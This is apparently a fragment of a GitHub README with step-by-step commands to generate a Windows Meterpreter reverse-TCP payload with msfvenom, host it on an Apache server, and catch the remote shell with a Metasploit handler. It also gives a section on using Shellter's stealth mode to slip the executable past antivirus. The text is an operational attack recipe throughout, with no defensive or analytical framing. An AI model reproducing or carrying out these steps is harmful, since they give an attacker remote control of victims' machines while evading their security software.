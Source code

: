## Instructions:
  ### On the host machine (linux): // Note: (change 192.168.0.24 to your ip, and 8080 to the port you desire)
   1.  msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows LHOST=192.168.0.24 LPORT=8080 -f exe > shell.exe   
   2.  cp shell.exe /var/www/html
    2.1. OPTIONAL go to Avoiding AntiVirus
   3.  service apache2 start
   3.  msfconsole
   4.  use exploit/multi/handler
   5.  set PAYLOAD windows/meterpreter/reverse_tcp
   6.  set LHOST 192.168.0.24
   7.  set LPORT 8080
   8.  exploit
   
   ### Avoiding Anti Virus
    1. sudo apt-get install shellter [ You might be required to install wine32 first (dpkg --add-architecture i386 && apt-get update && apt-get install wine32) ]
    2. shellter
    3. A (to select AUTO)
    4. /var/www/htmlEnter path to your executable
    5. Y (to enter stealth mode)
    6. Enter LHOST and LPORT
